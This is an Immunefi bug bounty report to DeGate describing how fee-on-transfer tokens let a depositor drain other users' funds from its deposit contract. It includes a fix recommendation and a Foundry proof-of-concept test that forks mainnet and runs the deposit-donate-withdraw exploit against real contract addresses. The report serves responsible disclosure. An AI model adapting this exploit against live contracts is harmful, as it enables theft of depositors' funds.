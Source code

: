 
# Fee-on-transfer tokens can be used to steal other depositor's funds

Submitted on Sun Dec 03 2023 09:57:51 GMT-0400 (Atlantic Standard Time) by @xBentley for [Boost | DeGate](https://immunefi.com/bounty/boosteddegatebugbounty/)

Report ID: #26468

Report type: Smart Contract

Report severity: Insight

Target: https://etherscan.io/address/0x54D7aE423Edb07282645e740C046B9373970a168#code

Impacts:
- Direct theft of user funds from the Default Deposit Contract that is less than 1,000,000 USD.

## Description
## Bug Description
The protocol has implemented a function that is supposed to handle fee-on-transfer tokens called setCheckBalance on the DefaultDepositContract. However, this function can be easily bypassed since it requires contract admin to set correct params BEFORE a deposit transaction. This is not practical since it requires the admin to front-run every deposit, check that the token applies fees to transfers and then set the correct settings. 
## Impact
When withdraing, users can steal other depositor tokens and drain the pool.
## Risk Breakdown
Difficulty to Exploit: Easy
Weakness:
CVSS2 Score:

## Recommendation
It is recommended that the contract instead should rely on ACTUAL balances before and after a deposit to determine if the token applies fees on transfers.
## References

        
## Proof of concept
I have provided this test as a POC:

```
// SPDX-License-Identifier: Unlicense
pragma solidity ^0.8.13;

import "forge-std/Test.sol";
import "forge-std/console.sol";

contract DeGateTestContract is Test {
    IExchangeV3 xv3 = IExchangeV3(0x9C07A72177c5A05410cA338823e790876E79D73B);
    function setUp() public {
        vm.createSelectFork(vm.envString("RPC_URL"), 18558127);
    }

    function testZero() public {
        vm.startPrank(0x3AD80b5C8FbD3599E24Bf23246171ddbcC4f366A);
        //Balance at genesis
        assertEq(0,IERC20(0xa7DE087329BFcda5639247F96140f9DAbe3DeED1).balanceOf(0x54D7aE423Edb07282645e740C046B9373970a168));
        IERC20(0xa7DE087329BFcda5639247F96140f9DAbe3DeED1).approve(0x54D7aE423Edb07282645e740C046B9373970a168, 12000);
        xv3.deposit(
            0x3AD80b5C8FbD3599E24Bf23246171ddbcC4f366A,
            0x3AD80b5C8FbD3599E24Bf23246171ddbcC4f366A,
            0xa7DE087329BFcda5639247F96140f9DAbe3DeED1,
            10000,
            ""
            );
        //Balance after deposit and fee of 100    
        assertEq(9900,IERC20(0xa7DE087329BFcda5639247F96140f9DAbe3DeED1).balanceOf(0x54D7aE423Edb07282645e740C046B9373970a168));    
        skip(1396000);
        IERC20(0xa7DE087329BFcda5639247F96140f9DAbe3DeED1).transfer(0x54D7aE423Edb07282645e740C046B9373970a168, 500);
        //Balance after donation of 500
        assertEq(10395,IERC20(0xa7DE087329BFcda5639247F96140f9DAbe3DeED1).balanceOf(0x54D7aE423Edb07282645e740C046B9373970a168));    
        xv3.withdrawFromDepositRequest(0x3AD80b5C8FbD3599E24Bf23246171ddbcC4f366A,0xa7DE087329BFcda5639247F96140f9DAbe3DeED1);
        //Balance at end
        assertEq(395,IERC20(0xa7DE087329BFcda5639247F96140f9DAbe3DeED1).balanceOf(0x54D7aE423Edb07282645e740C046B9373970a168));    
        
    }
}

interface IExchangeV3{
    function deposit(
        address from,
        address to,
        address tokenAddress,
        uint248  amount,
        bytes calldata extraData
        )
        external
        payable;
    function withdrawFromDepositRequest(
        address owner,
        address token
        )
        external
        ;    
}

/**
 * @dev Interface of the ERC20 standard as defined in the EIP.
 */
interface IERC20 {
    /**
     * @dev Emitted when `value` tokens are moved from one account (`from`) to
     * another (`to`).
     *
     * Note that `value` may be zero.
     */
    event Transfer(address indexed from, address indexed to, uint256 value);

    /**
     * @dev Emitted when the allowance of a `spender` for an `owner` is set by
     * a call to {approve}. `value` is the new allowance.
     */
    event Approval(address indexed owner, address indexed spender, uint256 value);

    /**
     * @dev Returns the amount of tokens in existence.
     */
    function totalSupply() external view returns (uint256);

    /**
     * @dev Returns the amount of tokens owned by `account`.
     */
    function balanceOf(address account) external view returns (uint256);

    /**
     * @dev Moves `amount` tokens from the caller's account to `to`.
     *
     * Returns a boolean value indicating whether the operation succeeded.
     *
     * Emits a {Transfer} event.
     */
    function transfer(address to, uint256 amount) external returns (bool);

    /**
     * @dev Returns the remaining number of tokens that `spender` will be
     * allowed to spend on behalf of `owner` through {transferFrom}. This is
     * zero by default.
     *
     * This value changes when {approve} or {transferFrom} are called.
     */
    function allowance(address owner, address spender) external view returns (uint256);

    /**
     * @dev Sets `amount` as the allowance of `spender` over the caller's tokens.
     *
     * Returns a boolean value indicating whether the operation succeeded.
     *
     * IMPORTANT: Beware that changing an allowance with this method brings the risk
     * that someone may use both the old and the new allowance by unfortunate
     * transaction ordering. One possible solution to mitigate this race
     * condition is to first reduce the spender's allowance to 0 and set the
     * desired value afterwards:
     * https://github.com/ethereum/EIPs/issues/20#issuecomment-263524729
     *
     * Emits an {Approval} event.
     */
    function approve(address spender, uint256 amount) external returns (bool);

    /**
     * @dev Moves `amount` tokens from `from` to `to` using the
     * allowance mechanism. `amount` is then deducted from the caller's
     * allowance.
     *
     * Returns a boolean value indicating whether the operation succeeded.
     *
     * Emits a {Transfer} event.
     */
    function transferFrom(address from, address to, uint256 amount) external returns (bool);
}
//RPC_URL=$ALCHEMY_API forge test --match-contract DeGateTestContract
```